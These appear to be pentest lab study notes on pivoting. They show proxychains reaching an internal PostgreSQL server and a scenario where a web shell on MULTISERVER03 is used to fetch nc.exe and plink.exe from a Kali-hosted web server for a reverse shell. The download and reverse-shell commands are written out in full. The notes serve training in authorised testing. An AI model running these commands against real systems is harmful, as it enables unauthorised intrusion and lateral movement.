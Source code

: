 - Use proxychains on Kali to connect to the PostgreSQL db
```bash
proxychains psql -h 10.4.216.215 -U postgres
	[proxychains] config file found: /etc/proxychains4.conf
	[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
	[proxychains] DLL init: proxychains-ng 4.17
	[proxychains] DLL init: proxychains-ng 4.17
	[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.216.215:5432  ...  OK
	Password for user postgres: 
	[proxychains] Strict chain  ...  127.0.0.1:9998  ...  10.4.216.215:5432  ...  OK
	psql (16.2 (Debian 16.2-1), server 12.12 (Ubuntu 12.12-0ubuntu0.20.04.1))
	SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, compression: off)
	Type "help" for help.
	
postgres=#
```


## plink
- Command-line counterpart to Putty
- Doesn't have remote dynamic port forwarding (verify)

#### Scenario
- Compromise MULTISERVER03 through the web application
- Drop a _web shell_ on it, and gain a reverse shell using that.
- Use to previously discovered creds connect to the RDP service
	- This is blocked by the firewall, so we can't connect directly.

#### Execution
![](plink.png)

- Get an interactive reverse shell from MULTISERVER03
	- From our initial exploitation, we uploaded a basic web shell at **/umbraco/forms.aspx**.
	- Browse to the URL and run whatever Windows commands wanted (will be run as the _iis apppool\\defaultapppool_ user).

- Start webserver on Kali to host **nc.exe** and **plink.exe**
```bash
sudo systemctl start apache2

find / -name nc.exe 2>/dev/null
	/usr/share/windows-resources/binaries/nc.exe

sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/

find / -name plink.exe 2>/dev/null
	/usr/share/windows-resources/binaries/plink.exe

sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
```

- Use MULTISERVER03 web shell to download **nc.exe** and **plink.exe** and then use to send a reverse shell back to Kali.
```bash
powershell wget -Uri http://192.168.45.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
powershell wget -Uri http://192.168.45.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
```
